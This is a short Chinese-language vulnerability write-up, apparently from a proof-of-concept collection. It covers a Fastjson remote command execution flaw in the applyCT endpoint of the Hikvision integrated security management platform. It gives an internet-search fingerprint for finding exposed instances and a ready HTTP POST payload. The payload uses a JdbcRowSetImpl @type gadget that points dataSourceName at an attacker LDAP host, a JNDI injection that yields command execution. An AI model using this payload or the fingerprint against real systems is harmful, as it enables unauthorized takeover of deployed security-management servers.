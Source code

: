 # Hikvision 综合安防管理平台 applyCT Fastjson远程命令执行漏洞

## 漏洞描述

Hikvision 综合安防管理平台 applyCT 存在低版本Fastjson远程命令执行漏洞，攻击者通过漏洞可以执行任意命令获取服务器权限

## 漏洞影响

```
Hikvision 综合安防管理平台
```

## 网络测绘

```
app="Hikvision-综合安防管理平台"
```

## 漏洞复现

登录页面

![image-20220824134144287](images/202208241341481.png)

验证POC

```
POST /bic/ssoService/v1/applyCT 
Content-Type: application/json

{"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://xxx.xxx.xxx.xxx/Basic/TomcatEcho","autoCommit":true},"hfe4zyyzldp":"="}
```

![image-20220824134503675](images/202208241345726.png)